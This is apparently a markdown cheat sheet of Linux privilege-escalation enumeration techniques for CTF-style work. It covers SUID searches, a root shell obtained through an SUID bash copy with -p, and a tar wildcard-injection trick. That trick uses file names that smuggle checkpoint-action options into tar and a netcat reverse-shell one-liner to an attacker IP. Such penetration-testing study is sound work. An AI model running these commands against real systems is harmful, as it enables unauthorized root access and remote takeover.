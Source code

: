 
# Linux Enumeration Techniques for PrivEsc

## Investigation of sudo privileges for the current user

```bash
sudo -l
```
## Investigation of the current user's cron jobs

```bash
crontab -l
```

## `find` command

### Finding SUID files

```bash
find / -perm -u=s -type f 2>/dev/null
```

**NOTE**: *enlightenment_sys* is a famous vulnerable SUID binary and is commonly found in CTFs.

**NOTE**: If a "bash" ELF file has SUID bit set, then run with `-p` option **to ensure that the permissions are retained**.

```bash
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash

# Running suid_bash without -p

./.suid_bash

.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

# Running suid_bash WITH -p

./.suid_bash -p

.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)

.suid_bash-4.4# whoami
root
```

## Methodology for exploiting an uncommon ELF file that could be run with elevated privileges.

- While enumerating a system for privilege escalation, we might stumble upon an ELF file that has the `SUID` bit set or could be run as `sudo`.

- Understanding the functionality of such a binary file takes a little extra effort than a script that has the `SUID` bit set or could be run as `sudo`.

- The first step to be performed on such an executable would be to run the command `strings` on it. **The output would contain the potential commands, directory paths, print messages etc.**, utilized by the binary which would help us get an idea about its functionality.

- The second step would be to **run the executable itself (with elevated privileges)**. The output generated during the file's exceution and its operation should give us a better understanding of the file's functionality.

- It is common to find ELF files (especially the ones that deal with some sort of automation or backup task) utilize binaries such as `tar`, `7za`, etc., as part of their intended functionality. Then we should **check if the way those binaries have been utilized facilitates PrivEsc**. For e.g. the utilization of the wildcard character `*` in a `tar` command facilitates arbitrary code execution which can be achieved by running the following commands in the working directory of the tar command followed by the excution of the vulnerable ELF file containing the `tar` command.

```bash
# Contents of shell.sh : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER'S IP> 9005 >/tmp/f

echo "" > "--checkpoint-action=exec=sh shell.sh"; echo "" > --checkpoint=1

# The above commands help the tar command to run the file shell.sh after the first file is archived.
```


## The `.env` file

Usually present in the application's root directory (or within a sub directory). May contain very useful key-value pairs like DB username, DB password etc.


## Sockets Investigation

### ss

```bash
ss -tulpn
```

`-t` - Displays TCP sockets

`-u` - Displays UDP sockets

`-l` - Displays only listening sockets

`-p` - Shows the process using the socket

`-n` - Doesn't resolve service names


## Determining the list of user accounts on the system.

```bash
ls /home
```

This step of determining the available users accounts on the system is very important. This info would be very helpful, **especially when direct privilege escalation to the `root` account isn't possible** from the current user account. So we could **try to pivot to another user account** on the system and then attempt to escalate to root.

## Check the email inboxes of users

```bash
cd /var/mail

ls -la #Lists all the users' mailbox files (if any)
```

## Discovering unknown Hostnames

```bash
cat /etc/hosts
```

This could help us **discover unknown subdomains** for already known services/applications.

